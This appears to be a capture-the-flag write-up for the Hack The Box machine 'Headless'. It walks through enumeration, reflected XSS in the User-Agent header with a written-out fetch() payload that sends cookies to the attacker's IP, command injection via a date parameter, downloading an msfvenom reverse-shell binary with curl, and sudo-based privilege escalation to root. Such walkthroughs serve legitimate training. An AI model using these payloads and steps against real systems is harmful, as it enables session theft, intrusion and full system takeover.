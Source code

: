 ```yaml
---
date: 2025-04-15
categories: [CTF, HTB]
title: "HTB - Headless"
tags: ['linux', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'xss']

description: "Headless - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Headless

NMAP

![image1](../resources/3c80bf65f98a417abdc9de767bdd5732.png)
 
Go to port 5000 in a browser - we can see it uses cookies:

![image2](../resources/4e972bba1701417b9e40e5a5c10f90ef.png)

- HttpOnly is set to **false**
Which means we can steal the cookies of other users

- Look for directories:
```bash
dirsearch -u <http://10.129.35.58:5000> /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

```

![image3](../resources/e288c54c60f64c48a19faae614f9aa4d.png)

- On the /support page:

![image4](../resources/75486423603540d39e9dafcc21025dbd.png)

- If we try and enter XSS code, we get this:

![image5](../resources/2c7e860e909e4aeb9bfcf45baf6699e3.png)

- Now looking at the error message, we see that our **User-Agent** information is being reflected

- Open Burp and forward to Repeater

- In order to get Reflected XSS we need to inject the XSS into the User-Agent field and get the page to error like before

- We need to set up a python server to catch the GET request which should have an (admin) cookie attached to it

- Using the payload:
```java
<img src=x onerror=fetch('http://10.10.14.23/?c='+document.cookie);>

```
and entering **hello;\<script\>** in the **message field** so that it errors. (Anything inside \<\> tags makes this page error)


![image6](../resources/b5f36784cc374c59afec29484a5e3d13.png)


![image7](../resources/6dc6a636156e4161a6e30a89e8050121.png)

- Got the cookie:
is_admin= **ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0**

- Good article here:
<https://systemweakness.com/reflected-xss-user-agent-2868ca1d5116>

- In the browser, Inspect -\> Storage -\> Cookies
- Change the cookie to the admin cookie

- Go to **/dashboard**


![image8](../resources/ac636b9d7709446f9c4a952e2b0379d1.png)

- Click on generate report and catch the request in Burp and send to Repeater:

![image9](../resources/a6c75ba552064d938d2077f2420780e4.png)


![image10](../resources/3d9119b0bfcb43c18e73d9fb2f435333.png)

- As we can see, the **date** parameter gets passed to the server as an argument

- We can inject commands into this parameter using **;**

![image11](../resources/b560fe1f3729472f939a6c1ef1b9f66f.png)

- The reverse shells didn't want to work

- But curl works:

![image12](../resources/2fd912ea3ad64fa88e83960dcac9d95d.png)

- Create a msfvenom linux .elf file and curl it onto the victim machine
- Run chmod +x on the reverse.elf file
- Set up msfconsole listener
- Run ./reverse.elf

- Got shell:

![image13](../resources/fd46e7feca16442691a127fef71146ce.png)


![image14](../resources/6e40cc79e04c467982668c5599edd89c.png)

```bash
cat user.txt

```
Upload public key to the ~/.ssh/authorized_keys and use SSH

```bash
sudo -l

```

![image15](../resources/731f0fa0989e430f997db6af215494cd.png)


![image16](../resources/3684b736a51447f0ba573b7bc3144c37.png)

- Checking the file /usr/bin/syscheck:

![image17](../resources/3d2d3f7ac3a74f41ba360d2fb04d97c7.png)

- In dvir home, create the file ./initdb.sh:

![image18](../resources/c092a50183f342d0a8f51c8493cee43e.png)

```bash
chmod +x initdb.sh
sudo /usr/bin/syscheck

```
- We have root:

![image19](../resources/974cddeac4af44649913cae2c9375fbf.png)
